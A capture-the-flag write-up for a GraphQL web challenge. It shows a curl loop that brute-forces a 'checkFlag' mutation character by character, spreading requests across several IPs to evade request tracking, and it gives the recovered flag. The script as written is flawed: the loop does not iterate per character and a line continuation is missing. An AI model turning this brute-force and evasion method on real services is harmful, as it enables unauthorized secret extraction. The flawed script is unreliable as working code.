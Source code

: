 # Stage 3 - querying - web - medium

## Challenge
In German, Graf means count. Anyway I'm certain he likes pie. Who doesn't? He also won't give you the Flag as he keeps track of every request. Nothing to see here, please move along. http://199.247.4.207:4000/

## Solution
For sure there is a better solution but bruteforce from 10 different IPs was good enough. Each server iterates over some portion of "a-zA-Z0-9_"
```
for c in 'a-zA-Z0-9_'; do
  echo ${c}
  curl -s 'http://199.247.4.207:4000/' \
      -H 'admin: 1' \
      -H 'Content-Type: application/json' \
      -H 'Accept: application/json' \
      -H 'Connection: keep-alive' \
      -H 'DNT: 1' \
      -H 'Origin: http://199.247.4.207:4000' \
      --data-binary '{"query":"# Write your query or mutation here\nmutation {\n  checkFlag(flag: \"junior-Batching_Qu3r1e5_is_FUN1'${c}'\")\n}"}'
      | jq '.data.checkFlag'
  echo ""
done
```
As soon `.data.checkFlag` reported correct character I was updating scripts and iterating again until full flag was recovered.

Even with a delay from server it's possible to recover the flag in below 30min.

## Links

## Flag
```
junior-Batching_Qu3r1e5_is_FUN1
```
